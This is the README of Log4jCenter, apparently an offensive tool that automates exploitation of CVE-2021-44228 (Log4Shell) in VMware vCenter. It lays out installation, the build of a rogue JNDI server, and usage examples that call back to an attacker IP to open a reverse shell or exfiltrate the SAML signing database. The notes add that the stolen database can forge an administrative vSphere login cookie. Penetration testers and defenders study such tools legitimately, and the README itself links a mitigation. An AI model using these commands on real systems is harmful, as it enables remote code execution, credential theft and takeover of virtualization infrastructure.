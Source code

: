 # Log4jCenter

Exploiting CVE-2021-44228 in vCenter for remote code execution and more. Blog post detailing exploitation linked below:

* COMING SOON

# Why?

Proof of concepts for this vulnerability are scattered and have to be performed manually. This repository automates the exploitation process and showcases an additional attack path that is possible after exploitation.

# Install

This repository can be used manually or with Docker.

### Manual install

To download and run the exploit manually, execute the following steps. First, ensure that Java and Maven are installed on your attacker host. To do this using apt on Debian based operating systems, run the following command:

```
apt update && apt install openjdk-11-jre maven
```

Clone the GitHub repository and install all python requirements:

```
git clone --recurse-submodules https://github.com/puzzlepeaches/Log4jCenter \
    && cd Log4jCenter && pip3 install -r requirements.txt
```

From the root of the Log4jCenter repository, compile the Rogue-Jndi project using the command below:

```
mvn package -f utils/rogue-jndi/
```

### Docker install

First, ensure that Docker is installed on your attacking host. (I am not going to walk you through doing this)

Following that, execute the following command to clone the repository and build the Docker image we will be using.

```
git clone --recurse-submodules https://github.com/puzzlepeaches/Log4jCenter \
    && cd Log4jCenter && docker build -t log4jcenter .
```

To run the container, run a command similar to the following with your command line flags appended. For example, the command below would be used to exploit vCenter and get a reverse shell. Note that the container will not catch the reverse shell. You need to create a ncat listener in a separate shell session:

```
docker run -it -v $(pwd)/loot:/Log4jCenter/loot -p 8090:8090 -p 1389:1389 log4jcenter \ 
    -t 10.100.100.1 -i 192.168.1.1 -p 4444 -r
```


# Usage

```
usage: exploit.py [-h] -t IP -i CALLBACK [-p PORT] [-e] [-r]

optional arguments:
  -h, --help            show this help message and exit
  -t IP, --target IP    vCenter Host IP
  -i CALLBACK, --ip CALLBACK
                        Callback IP for payload delivery and reverse shell.
  -p PORT, --port PORT  Callback port for reverse shell.
  -e, --exfiltrate      Module to pull SAML DB
  -r, --revshell        Module to establish reverse shell
```

# Examples

Get a reverse shell using the tool installed on your local system:

```
python3 exploit.py -t vcenter.acme.com -i 10.10.10.1 -p 4444 -r
```

Exfiltrate the SAML signing databases from within a Docker container:

```
docker run -it -v $(pwd)/loot:/Log4jCenter/loot -p 1389:1389 -p 8090:8090 log4jcenter \
    -t 10.100.100.1 -i 192.168.1.1 -e
```

# Notes

* For some unkown reason, the reverse shell payload may not fire after first run of the script. You may have to run the exploit a few times to get the callback. Going to explore this and include a fix in a future release. 
* Included in the utils directory is the repository [vcenter_saml_login](https://github.com/horizon3ai/vcenter_saml_login). You can use this in combination with the e flag to exfiltrate the vCenter SAML signing database and generate an administrative login cookie for vSphere. You will need to install requirements separately.
* For defenders, you can mitigate this issue using a patch coming soon or the workaround detailed [here](https://kb.vmware.com/s/article/87081)

# Disclaimer
This tool is designed for use during penetration testing; usage of this tool for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state, and federal laws. Developers assume no liability and are not responsible for any misuse of this program.
